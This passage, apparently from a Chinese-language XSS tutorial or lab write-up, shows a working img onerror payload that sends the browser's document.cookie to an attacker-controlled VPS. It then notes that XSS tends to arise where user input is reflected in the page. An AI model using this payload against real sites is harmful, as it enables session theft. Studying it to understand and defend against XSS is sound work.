 已经返回cookie

![image-20220901153111814](../../images/image-20220901153111814.png)



使用`img`标签获取cookie：

```
<img src=x onerror="this.src='//192.168.1.118/?'+document.cookie;this.removeAttribute('onerror');">
```

![image-20220901153841592](../../images/image-20220901153841592.png)

返回到vps上查看结果：

![image-20220901153907905](../../images/image-20220901153907905.png)




## 二 扩展的知识

我们可以用肉眼观察到一个直观的规律，XSS漏洞产生的位置往往在用户提交的文本被反馈在浏览器上的地方。
